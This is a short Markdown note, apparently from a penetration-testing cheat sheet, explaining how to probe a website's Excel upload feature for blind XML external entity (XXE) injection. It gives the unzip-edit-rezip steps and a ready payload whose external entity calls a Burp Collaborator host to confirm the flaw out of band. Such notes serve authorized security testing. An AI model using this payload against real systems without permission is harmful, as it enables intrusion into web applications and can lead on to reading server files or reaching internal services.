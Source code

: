 ### XXE injection in excel file
Is there any excel uploading function in website? Try these methods to find blind xxe
- unzip xlsx file using unzip test.xlsx
- change any one of the .xml file such as xl/workbook.xml with the content
 ```
 <!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://gtdwmy7gvrncy5rvfu11kxzl2c82wr.burpcollaborator.net/"> ]>
<x>&xxe;</x>
 
 ```
 - zip back all the xml files using zip test.xlsx *
 - upload the files back to the server and see if the response come back to the burp collaborator
---
